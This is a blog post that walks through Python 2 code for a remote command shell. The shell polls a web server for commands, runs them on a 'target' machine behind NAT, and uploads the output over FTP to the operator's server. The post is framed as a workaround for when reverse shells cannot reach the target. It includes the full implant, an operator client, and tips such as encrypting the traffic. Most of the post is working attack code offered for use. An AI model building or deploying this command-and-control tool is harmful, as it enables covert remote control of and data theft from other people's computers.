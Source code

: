 ```yaml
---
layout: post
title: "Useful Python Scripts: HTTP&FTP Shell"
date: 2016-04-25 18:00:00 +0200
categories: Scripting
tags:
  - scripting
  - shell
  - python
author: Joe Schmoe
---
```

Some people have problems with being unable to port forward, so they can't use reverse shells. Most of the time you can't use a bind shell either, if your target is behind NAT. What do!?.

## The Solution
What you can do is use a web server to transfer commands and outputs. So let's do just that!  

## The Server

We will need to use a few libraries:
{% highlight python linenos %}
import urllib2, ftplib, subprocess, StringIO, time, os
{% endhighlight %}
- urllib2: For downloading commands.
- ftplib: For uploading output.
- subprocess: For executing commands.
- StringIO: For turning strings into file objects. Why this is needed will be explained later.
- time: For sleeping.
  
Now that we have everything we need let's begin.  
  
{% highlight python linenos %}
import urllib2, ftplib, subprocess, StringIO, time
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
	except Exception as e:
		print(str(e))
		time.sleep(20)
		
{% endhighlight %}

Seems pretty simple. We try downloading the input file, containing a command to execute. If there's an exception (No internet connection, input.txt doesn't exist, internet is on fire, etc.), we display it and wait 20 seconds before trying again. Now let's do something with the received command.

{% highlight python linenos %}
output = StringIO.StringIO(subprocess.check_output(command, shell=True))
{% endhighlight %}

We'll use subprocess the execute the command and get the output. Then, we will use StringIO to turn the command into a file object. Now let's upload the output to the FTP server.

{% highlight python linenos %}
ftp = ftplib.FTP("server.com")
ftp.login("username","password")
ftp.storbinary("STOR output.txt",output)
ftp.delete("input.txt")
ftp.quit()
ftp.close()
{% endhighlight %}

We create an FTP object and login to a server of our choosing. Then, we use the STOR command to store our output as output.txt. ftplib requires the second argument to be a file object, and that's why we needed to use StringIO earlier. After that, we delete the input file since it's no longer needed, and close our connection. The server is done!

{% highlight python linenos %}
import urllib2, ftplib, subprocess, StringIO, time, os
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
		output = StringIO.StringIO(subprocess.check_output(command, shell=True))
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR output.txt",output)
		ftp.delete("input.txt")
		ftp.quit()
		ftp.close()
	except Exception as e:
		print str(e)
		time.sleep(20)
{% endhighlight %}

**The Client**

The client is very analogous to the server, so I don't think there's much to explain.

{% highlight python linenos %}
import urllib2, ftplib, time
while True:
	try:
		command = StringIO.StringIO(raw_input())
		
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR input.txt",command)
		try: ftp.delete("output.txt")
		except: pass
		ftp.quit()
		ftp.close()
		while True:
			try:
				output = urllib2.urlopen("http://server.com/output.txt").read()
				break
			except:
				time.sleep(5)
				continue
			
		print output
	except Exception as e:
		print str(e)
{% endhighlight %}

We get the command and turn it into a file object, upload it, and delete the previous output (The try/except is there because if output.txt doesn't exist ftplib raises an exception). Then we try reading the output every 5 seconds, and print it when we succeed.


Some suggestions for improving the script:
- Make it use HTTP/FTP only.
- Encrypt data before sending it.
- You need to append "cd <directory>" before every command, because subprocess always uses the current directory. Perhaps you can make the script change the current working directory?
- Show current directory and a prompt.


Hope you enjoyed this article!  
Joe Schmoe
